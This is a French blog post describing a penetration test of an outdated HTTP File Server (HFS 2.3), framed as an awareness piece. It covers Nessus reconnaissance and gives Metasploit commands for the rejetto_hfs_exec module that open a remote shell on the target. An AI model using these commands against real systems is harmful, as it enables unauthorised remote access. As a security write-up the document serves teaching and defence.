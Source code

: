 ```yaml
---
layout: post
title:  "Test d'intrusion sur un HTTP File Server"
date:   2021-01-11
last-update: 
categories: securite
tags: http pentesting hfs
image: \assets\article\pentest\hfs\hfs.PNG
description: cet article présente un test d'intrusion sur une ancienne version de HTTP File Server afin de sensibiliser le lecteur aux différentes vulnérabilités possibles pour qu'il s'en prémunisse.
---
```




# HTTP File Server

HTTP File Server abrégé HFS permet d'envoyer et de recevoir des fichiers en utilisant le protocole HTTP.
Le 31 octobre 2021, la dernière version était 2.3m.

Avec une ancienne version, la 2.3 b, il était possible d'obtenir un shell sur la machine avec metasploit.



## Reconnaissance

Lors d'une 1ère phase de reconnaissance, en lançant un scan avec Nessus, celui-ci a trouvé qu'un serveur HTTP HFS était installé à l'adresse IP <IP server> avec le port 80.

Petite remarques : cette hôte n'était pas détecté en lançant le scan nmap suivant : `sudo nmap -O <IP server>

![hfs-recon]({{site.url_complet}}\assets\article\pentest\hfs\hfs-recon.PNG)



On peut vérifier la présence du serveur en se connectant avec son navigateur. On arrive alors sur la page principale d'HFS.

On peut voir en bas que la version est 2.3. A ce stade, il n'est pas encore possible d'être sûr à 100% que cette version est vulnérable

![hfs]({{site.url_complet}}\assets\article\pentest\hfs\hfs.PNG)

## Exploit

En faisant une recherche avec google, un module metasploit efficace contre la version 2.3 b est disponible

Documentation : [www.rejetto.com/hfs/](https://www.rejetto.com/hfs/)

Il suffit alors de lancer metasploit, d'effectuer la configuration des hôtes et de lancer l'exploit

```bash
use use exploit/windows/http/rejetto_hfs_exec
set RHOSTS <IP server>  #Target
set LHOST <IP localhost> #Local host ip
```

Bingo, la machine était bien vulnérable à l'exploit. On obtient par conséquent un shell sur la machine permettant de lire les fichiers s'y trouvant



![meterpreter-result]({{site.url_complet}}\accessDenied\assets\article\pentest\hfs\meterpreter-result.PNG)

## Source :

- Documentation metasploit : [www.rapid7.com - rejetto_hfs_exec/](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec/)
- Site officiel de l'éditeur : [www.rejetto.com/hfs/](https://www.rejetto.com/hfs/)